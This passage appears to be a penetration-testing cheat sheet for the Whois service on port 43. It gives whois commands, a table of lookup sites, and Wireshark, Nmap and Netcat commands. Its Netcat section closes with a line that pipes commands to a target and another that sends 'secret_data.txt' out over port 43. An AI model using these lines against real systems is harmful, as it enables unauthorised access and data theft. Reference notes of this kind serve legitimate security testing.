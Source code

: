     ```bash
    whois example.com | grep 'Registrar\|Creation Date'
    ```
- **Save Output to File:** Saves the output of the Whois query to a text file for later analysis.
    ```bash
    whois example.com > whois_example.txt
    ```

### Online Whois Tools

|**Site**|**URL**|
|  |  |
| Whois Lookup | [https://www.whois.com/whois/](https://www.whois.com/whois/) |
| ICANN Lookup | [https://lookup.icann.org/](https://lookup.icann.org/) |
| Domain Big Data | [https://domainbigdata.com](https://domainbigdata.com)|
| Whois.DomainTools | [https://whois.domaintools.com](https://whois.domaintools.com) |
| WhoIs IP          | [https://www.ultratools.com/tools/ipWhoisLookup](https://www.ultratools.com/tools/ipWhoisLookup) |
| IP2Location       | [https://www.ip2location.com](https://www.ip2location.com) |
| Whoisology        | [https://whoisology.com](https://whoisology.com)  |
| Whoxy             | [https://whoxy.com](https://whoxy.com)  |

## Exploitation Tools

### [[Metasploit]]

### [[Wireshark]]
- **Wireshark Packet Capture:**
	```bash
	wireshark -i <interface> -f "tcp port 43"
	```

### [[Nmap]]
- **Basic Nmap Scan:** Scan target on specified port to verify if service is on.
    ```bash
    nmap <target_ip> -p 43
    ```

### [[NetCat]]
 - **Netcat TCP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 43
    ```
- **Netcat UDP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 43 -u
    ```
- **Execute Commands:** Execute commands on target.
	```bash
	echo "<command>" | nc <target_ip> 43
	```
- **Exfiltrate Data:** Exfiltrate data over specified port.
	```bash
    nc <target_ip> 43 < secret_data.txt
    ```
